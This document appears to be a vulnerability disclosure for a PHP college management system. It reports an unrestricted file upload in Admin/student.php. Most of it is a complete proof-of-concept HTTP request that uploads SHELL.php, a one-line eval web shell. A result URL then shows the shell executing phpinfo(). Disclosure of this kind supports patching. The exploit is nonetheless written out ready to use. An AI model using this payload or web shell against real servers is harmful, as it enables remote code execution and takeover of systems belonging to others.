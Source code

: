 # college-management-system-in-php has RCE in Admin/student.php

## supplier 
https://code-projects.org/college-management-system-in-php-with-source-code/
## Vulnerability parameter
Admin/student.php

## describe

The system's student. php has a vulnerability for arbitrary file upload, which can upload Trojan files and execute malicious code.

**Code analysis**    

When the value of   $FILES parameter is obtained in function , it will be uploaded to /images.

![Image](https://github.com/user-attachments/assets/550a7697-6a8c-4aaf-86de-78394c697f40)



## POC

```
POST /Admin/student.php HTTP/1.1
Host: college-management-system
Content-Length: 3720
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://college-management-system
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0kx8SRubJh8uHuVl
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://college-management-system/admission.php/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="first_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="middle_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="last_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="father_name"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="email"

123456@qq.com
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="mobile_no"

1
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="course_code"

Select Course
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="session"

Select Session
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="profile_image"; filename="SHELL.php"
Content-Type: application/octet-stream

<?php
@eval($_REQUEST['SHELL']);
?>
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="prospectus_issued"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="prospectus_amount"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="form_b"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="applicant_status"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="application_status"

Select Option
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="cnic"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="dob"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="other_phone"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="gender"

Select Gender
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="permanent_address"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="current_address"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="place_of_birth"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="matric_complition_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="matric_awarded_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="matric_certificate"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="fa_complition_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="fa_awarded_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="fa_certificate"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="ba_complition_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="ba_awarded_date"


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="ba_certificate"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="password"

student123*
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="role"

Student
------WebKitFormBoundary0kx8SRubJh8uHuVl
Content-Disposition: form-data; name="btn_save"

&#25552;&#20132;
------WebKitFormBoundary0kx8SRubJh8uHuVl--

```

**Result**

```
http://college-management-system/Admin/images/SHELL.php?SHELL=phpinfo();
```

![Image](https://github.com/user-attachments/assets/73ca4d8b-8c03-4c4b-ba7d-7c2f40c4de2e)

![Image](https://github.com/user-attachments/assets/aa1d297e-13f8-4026-b26a-236ec6b41472)